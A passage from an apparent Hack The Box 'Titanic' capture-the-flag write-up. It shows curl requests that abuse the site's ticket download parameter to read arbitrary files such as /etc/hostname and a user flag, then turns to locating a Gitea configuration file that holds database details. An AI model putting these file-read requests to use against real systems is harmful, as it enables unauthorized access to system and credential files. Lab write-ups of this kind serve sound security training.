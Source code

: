 ![](../assets/images/htb-titanic/4.png)

I probe this with curl: 

```bash 
┌──(kali㉿kali)-[~]
└─$ curl 'http://titanic.htb/download?ticket=/etc/owo'   
{"error":"Ticket not found"}
                                                                                  
┌──(kali㉿kali)-[~]
└─$ curl 'http://titanic.htb/download?ticket=/etc/hostname'
titanic
```

From the /etc/passwd I can see the user developer has access to a shell, so we can try to see if the user's flag is in the developer directories. 

```bash 
┌──(kali㉿kali)-[~]
└─$ curl 'http://titanic.htb/download?ticket=/home/developer/user.txt'
9f9d2b8d09acd7e63eb91dc1e75ae8ee
```

-----

At this point we know where's the configuration file. [In this site](https://docs.gitea.com/) we can see where's the customization files. The configuration file will be saved at /data/gitea/conf/app.ini after the installation.

Checking this path, we can observe the database information: 
